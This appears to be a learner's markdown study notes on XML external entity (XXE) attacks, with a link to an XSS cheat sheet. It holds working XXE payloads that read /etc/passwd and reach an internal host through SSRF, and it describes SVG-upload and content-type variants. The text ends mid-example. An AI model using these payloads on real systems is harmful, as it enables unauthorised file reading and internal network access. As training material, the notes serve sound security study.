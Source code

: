 
<h1>Resources</h1>

XSS cheatsheet - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## XXE

XXE or XML external entity is an attacker that allow attackers to read filesystems and leverage XXE to SSRF to compromise the backend systems.

<h3>Why XXE is dangerous?</h3>

Many websites use XML as a request transportation for API communication.  This has been taught in CPTS path but i forgot lol.

**the concept of XXE**

let say this is a request containing XXE vuln

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

to exploit it you must create an entity using DOCTYPE.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

after the modified request has been sent. You have completed the exploitation!. You can observe the response request to see the output.

Example of XXE via SSRF

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

So as we have learned from SSRF. We can abuse SSRF via the function that leads to execution of the input. because the entity in XML is being executed, we can use URL (which is a normal attack vector for SSRF) to exploit SSRF in XML request.


**XXE attacks via file upload**

We can abuse XXE via SVG file images. Since SVG is practically XML, we can embed the entity to exploit the XXE. To see the output, you simply go to the image location. The output should display as the image!

**XXE attacks via modified content type**

If the web server allows XML request.

By default,

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
